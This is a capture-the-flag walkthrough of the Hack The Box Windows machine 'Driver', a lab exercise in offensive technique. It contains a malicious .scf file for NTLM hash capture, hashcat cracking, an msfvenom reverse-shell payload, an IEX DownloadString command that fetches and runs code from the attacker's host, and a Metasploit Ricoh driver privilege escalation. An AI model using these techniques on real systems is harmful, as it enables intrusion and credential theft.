

# HTB: Driver Walkthrough
---
## Machine Overview
- **Name:** Driver
- **OS:** Windows
- **Difficulty:** Easy

Driver is an easy Windows machine that focuses on printer exploitation. Enumeration of the machine reveals that a web server is listening on port 80, along with SMB on port 445 and WinRM on port 5985. Navigation to the website reveals that it's protected using basic HTTP authentication. While trying common credentials the admin:admin credential is accepted and we are able to visit the webpage. The webpage provides a feature to upload printer firmwares on an SMB share for a remote team to test and verify. Uploading a Shell Command File that contains a command to fetch a remote file from our local machine, leads to the NTLM hash of the user tony relayed back to us. Cracking the captured hash to retrieve a plaintext password we are able login as tony, using WinRM. Then, switching over to a meterpreter session it is discovered that the machine is vulnerable to a local privilege exploit that abuses a specific printer driver that is present on the remote machine. Using the exploit we can get a session as NT AUTHORITY\SYSTEM.

---

## Recon
### Port scanning
As usual i started with nmap
```sh
❯ sudo nmap -sC -sV 10.129.95.238 -o nmap    
PORT     STATE SERVICE      VERSION  
80/tcp   open  http         Microsoft IIS httpd 10.0  
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).  
|_http-server-header: Microsoft-IIS/10.0  
| http-methods:    
|_  Potentially risky methods: TRACE  
| http-auth:    
| HTTP/1.1 401 Unauthorized\x0D  
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin  
135/tcp  open  msrpc        Microsoft Windows RPC  
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)  
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
|_http-title: Not Found  
|_http-server-header: Microsoft-HTTPAPI/2.0  
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows  
  
Host script results:  
| smb-security-mode:    
|   authentication_level: user  
|   challenge_response: supported  
|_  message_signing: disabled (dangerous, but default)  
| smb2-time:    
|   date: 2026-06-03T02:12:15  
|_  start_date: 2026-06-03T02:07:43  
|_clock-skew: mean: -13s, deviation: 0s, median: -13s  
| smb2-security-mode:    
|   3.1.1:    
|_    Message signing enabled but not required
```

### Website - port 80
The web service appears to be a printer firmware management portal. Since this type of application is often deployed with default credentials, I first tested common defaults before attempting any brute force or enumeration.

The website contains MFP Firmware Update Center.
There is a firmware update section where   one selects printer model and upload the respective firmware update to our file share.
This means the smb port I we saw in port scanning might contain firmwares we upload here.

The firmware upload page mentions that uploaded files are stored on a file share for manual review. Since SMB is exposed on the target, I wanted to determine whether we could access that share directly or abuse the review process.
### Smb 
I tried guest and null login if it worked
```sh
❯ nxc smb 10.129.95.238 -u '' -p ''  
SMB         10.129.95.238   445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)  
SMB         10.129.95.238   445    DRIVER           [-] DRIVER\: STATUS_ACCESS_DENIED    
❯ nxc smb 10.129.95.238 -u 'guest' -p ''  
SMB         10.129.95.238   445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)  
SMB         10.129.95.238   445    DRIVER           [-] DRIVER\guest: STATUS_ACCOUNT_DISABLED    
```

Null  authentication is denied while guest account is disbled.
Since `admin:admin` worked on the website, I tried them here but they did not work
```sh
❯ nxc smb 10.129.95.238 -u 'admin' -p 'admin'  
SMB         10.129.95.238   445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)  
SMB         10.129.95.238   445    DRIVER           [-] DRIVER\admin:admin STATUS_LOGON_FAILURE
```

Going back to the website, it said that the file we attach is save to a share and it is manually accessed.
Since uploaded files are manually reviewed, a file that causes Windows Explorer to access a remote SMB resource could force the reviewer to authenticate to a host under our control. Rather than performing NTLM relay, my goal here is simply to capture an NTLMv2 challenge-response hash and crack it offline.

## NTLM Relay
I created a shell command file (.scf). When a user opens the folder containing this file, Windows Explorer will automatically try to fetch the icon from your SMB server, forcing an authentication attempt
Create a `malicious.scf` file ncontainig:
```sh
[Shell]  
Command=2  
IconFile=\\10.10.15.179\share\doesnotexist.ico  
[Taskbar]  
Command=ToggleDesktop
```
Start responder
```sh
sudo responder -I tun0
```

Upload the malicious file.
Immediately responder captures a ntlmv2 hash for `tony`
This confirms that a user browsed the uploaded file. The captured value is an NTLMv2 challenge-response hash, which cannot be used directly for authentication but can often be cracked offline if the password is weak.
```sh
[SMB] NTLMv2-SSP Client   : 10.129.95.238  
[SMB] NTLMv2-SSP Username : DRIVER\tony  
[SMB] NTLMv2-SSP Hash     : tony::DRIVER:d9463ada43d90cb0:E15175C1591FCB3C4749CF6949408145:0101000000000000001567B123F3DC014467A9AC2434F2C1000000000200080035005A003900480001001E00570049004E002D0045004A00500054004F00580039004A005200510056  
0004003400570049004E002D0045004A00500054004F00580039004A005200510056002E0035005A00390048002E004C004F00430041004C000300140035005A00390048002E004C004F00430041004C000500140035005A00390048002E004C004F00430041004C0007000800001567B123F3DC01060  
	00400020000000800300030000000000000000000000000200000AE61E94107CECE8FB610B8683078F8359289BE01C728A361DDDA4D406B3ABE910A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310035002E003100370039000000  
00000000000000000000
```

## Hash cracking
Since this is a challenge-response hash and not a password, l tried cracking it using hashcat
```sh
❯ hashcat tony.hash ~/Documents/cybersec/wordlists/rockyou.txt  
hashcat (v7.1.2) starting in autodetect mode  
  
---[snip]----  
  
TONY::DRIVER:d9463ada43d90cb0:e15175c1591fcb3c4749cf6949408145:0101000000000000001567b123f3dc014467a9ac2434f2c1000000000200080035005a003900480001001e00570049004e002d0045004a00500054004f00580039004a0052005100560004003400570049004e002d0045  
004a00500054004f00580039004a005200510056002e0035005a00390048002e004c004f00430041004c000300140035005a00390048002e004c004f00430041004c000500140035005a00390048002e004c004f00430041004c0007000800001567b123f3dc010600040002000000080030003000000  
0000000000000000000200000ae61e94107cece8fb610b8683078f8359289be01c728a361ddda4d406b3abe910a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310035002e00310037003900000000000000000000000000:liltony  
                                                            
Session..........: hashcat  
Status...........: Cracked  
Hash.Mode........: 5600 (NetNTLMv2)
```

We get password of tony
## Shell as tony
Port 5985 was open during our initial scan, indicating that WinRM is available. Since we now have valid credentials for tony, we can attempt remote PowerShell access using Evil-WinRM.

 ```sh
 ❯ evil-winrm -i 10.129.95.238 -u tony -p 'liltony'  
/usr/lib/ruby/gems/3.4.0/gems/winrm-2.3.9/lib/winrm/psrp/fragment.rb:35: warning: redefining 'object_id' may cause serious problems  
/usr/lib/ruby/gems/3.4.0/gems/winrm-2.3.9/lib/winrm/psrp/message_fragmenter.rb:29: warning: redefining 'object_id' may cause serious problems  
                                          
Evil-WinRM shell v3.9  
                                          
Warning: Remote path completions is disabled due to ruby limitation: undefined method 'quoting_detection_proc' for module Reline  
                                          
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion  
                                          
Info: Establishing connection to remote endpoint  
/usr/lib/ruby/gems/3.4.0/gems/rexml-3.4.4/lib/rexml/xpath.rb:67: warning: REXML::XPath.each, REXML::XPath.first, REXML::XPath.match dropped support for nodeset...  
*Evil-WinRM* PS C:\Users\tony\Documents> whoami  
driver\tony  
*Evil-WinRM* PS C:\Users\tony\Documents> dir ..\Desktop  
  
  
   Directory: C:\Users\tony\Desktop  
  
  
Mode                LastWriteTime         Length Name  
----                -------------         ------ ----  
-ar---         6/2/2026   7:08 PM             34 user.txt  
  
  
*Evil-WinRM* PS C:\Users\tony\Documents>
 
 ```
We get user flag

##  Privilege escalation

Checking on privileges
```powershell
C:\Users\tony\Documents> whoami /all  
  
USER INFORMATION  
----------------  
  
User Name   SID  
=========== ==============================================  
driver\tony S-1-5-21-3114857038-1253923253-2196841645-1003  
  
  
GROUP INFORMATION  
-----------------  
  
Group Name                             Type             SID          Attributes  
====================================== ================ ============ ==================================================  
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group  
BUILTIN\Remote Management Users        Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group  
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group  
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group  
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group  
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group  
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group  
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group  
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192  
  
  
PRIVILEGES INFORMATION  
----------------------  
  
Privilege Name                Description                          State  
============================= ==================================== =======  
SeShutdownPrivilege           Shut down the system                 Enabled  
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled  
SeUndockPrivilege             Remove computer from docking station Enabled  
SeIncreaseWorkingSetPrivilege Increase a process working set       Enabled  
SeTimeZonePrivilege           Change the time zone                 Enabled
```


BloodHound is not applicable on this standalone Windows host, so I switched to local privilege escalation enumeration using WinPEAS. One interesting finding was the existence of a PowerShell history file.

```powershell
[+] PowerShell Settings
    PowerShell v2 Version: 2.0
    PowerShell v5 Version: 5.0.10240.17146
    PowerShell Core Version:
    Transcription Settings:
    Module Logging Settings:
    Scriptblock Logging Settings:
    PS history file: C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt             
    PS history size: 106B 
```

It contains a command adding a printer:

```powershell
PS C:\users\tony\appdata\roaming\microsoft\windows\PowerShell\PSReadline> cat ConsoleHost_history.txt
Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'
```

The PowerShell history revealed the exact printer driver installed on the system. Researching the driver version showed that it is vulnerable to CVE-2019-19363, a privilege escalation vulnerability affecting Ricoh printer drivers that allows arbitrary DLL loading as SYSTEM. 

## Meterpreter
The public exploit is available as a Metasploit local privilege escalation module. Since the module requires a Meterpreter session, I first established one from the existing WinRM shell.

Generate a powershell payload
```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.179 LPORT=4444 -f psh-reflection -o shell.ps1  
  
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload  
[-] No arch selected, selecting arch: x64 from the payload  
No encoder specified, outputting raw payload  
Payload size: 509 bytes  
Final size of psh-reflection file: 3176 bytes  
Saved as: shell.ps1
```

setup a metasploit handler
```sh
msf > use exploit/multi/handler  
[*] Using configured payload generic/shell_reverse_tcp  
msf exploit(multi/handler) > options  
  
Payload options (generic/shell_reverse_tcp):  
  
  Name   Current Setting  Required  Description  
  ----   ---------------  --------  -----------  
  LHOST                   yes       The listen address (an interface may be specified)  
  LPORT  4444             yes       The listen port  
  
  
Exploit target:  
  
  Id  Name  
  --  ----  
  0   Wildcard Target  
  
  
  
View the full module info with the info, or info -d command.  
  
msf exploit(multi/handler) > set LHOST tun0  
LHOST => 10.10.15.179  
PAYLOAD => windows/x64/meterpreter/reverse_tcp  
msf exploit(multi/handler) > options  
  
Payload options (windows/x64/meterpreter/reverse_tcp):  
  
  Name      Current Setting  Required  Description  
  ----      ---------------  --------  -----------  
  EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)  
  LHOST     10.10.15.179     yes       The listen address (an interface may be specified)  
  LPORT     4444             yes       The listen port  
  
  
Exploit target:  
  
  Id  Name  
  --  ----  
  0   Wildcard Target  
msf exploit(multi/handler) > exploit
```

Create a python web server
```sh
python3 -m http.server 8000
```
Execute the powershell payload in the winrm session
```sh
IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.179:8000/shell.ps1')
```
`IEX` (Invoke-Expression) downloads and runs the script directly in memory

Now that we have  a meterpreter session lets background it and run rico driver exploit since it is already available in metasploit
```sh
meterpreter > background  
[*] Backgrounding session 156...  
msf exploit(multi/handler) > use exploit/windows/local/ricoh_driver_privesc  
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp  
msf exploit(windows/local/ricoh_driver_privesc) > set SESSION 156 
SESSION => 1  
msf exploit(windows/local/ricoh_driver_privesc) > set LHOST 10.10.15.179  
LHOST => 10.10.15.179  
msf exploit(windows/local/ricoh_driver_privesc) > set PAYLOAD windows/x64/meterpreter/reverse_tcp  
PAYLOAD => windows/x64/meterpreter/reverse_tcp  
msf exploit(windows/local/ricoh_driver_privesc) > set LPORT 5555  
LPORT => 5555
msf exploit(windows/local/ricoh_driver_privesc) > run  
[*] Started reverse TCP handler on 10.10.15.179:5555    
[*] Running automatic check ("set AutoCheck false" to disable)  
[+] The target appears to be vulnerable. Ricoh driver directory has full permissions  
[*] Adding printer nXOFuz...  
[*] Sending stage (248902 bytes) to 10.129.95.238  
[+] Deleted C:\Users\tony\AppData\Local\Temp\RsrGj.bat  
[+] Deleted C:\Users\tony\AppData\Local\Temp\headerfooter.dll  
[*] Meterpreter session 3 opened (10.10.15.179:5555 -> 10.129.95.238:49612) at 2026-06-03 16:44:32 +0300  
[*] Deleting printer nXOFuz  
  
meterpreter > 
```

## Shell as administrator
We get a meterpreter session as nt authority\system

```powershell
meterpreter > shell  
Process 4624 created.  
Channel 2 created.  
Microsoft Windows [Version 10.0.10240]  
(c) 2015 Microsoft Corporation. All rights reserved.  
  
C:\Windows\system32>whoami  
whoami  
nt authority\system  
  
C:\Windows\system32>
```

Root flag
```powershell
C:\Windows\system32>cd /users/administrator/desktop  
cd /users/administrator/desktop  
  
C:\Users\Administrator\Desktop>dir  
dir  
Volume in drive C has no label.  
Volume Serial Number is DB41-39A3  
  
Directory of C:\Users\Administrator\Desktop  
  
06/12/2021  04:37 AM    <DIR>          .  
06/12/2021  04:37 AM    <DIR>          ..  
06/02/2026  07:08 PM                34 root.txt  
              1 File(s)             34 bytes  
              2 Dir(s)   6,122,328,064 bytes free  
  
C:\Users\Administrator\Desktop>type root.txt  
type root.txt  
6be31a264490d8c4fa0b38fc7f24828f  
  
C:\Users\Administrator\Desktop>
```

## Key Takeaways
1. **Always check PowerShell history** - It revealed the vulnerable driver version
2. **Default credentials work surprisingly often** (`admin:admin` here)
3. **`.scf` files are great for NTLM capture** when `.lnk` is blocked